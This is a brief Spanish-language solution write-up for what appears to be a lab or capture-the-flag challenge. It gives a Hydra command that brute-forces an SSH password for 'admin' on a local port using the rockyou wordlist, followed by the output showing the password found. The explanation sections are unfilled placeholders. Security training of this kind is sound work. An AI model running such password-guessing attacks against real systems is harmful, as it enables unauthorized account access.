 # Solucion para el reto 4

## Comando utilizado para la obtencion de la contraseña del usuario admim

```bash
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```
![alt text](image.png)


Aqui explicamos cada argumento 


Aqui ponemos el resultado donde se muestra la informacion


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```
![alt text](image-1.png)


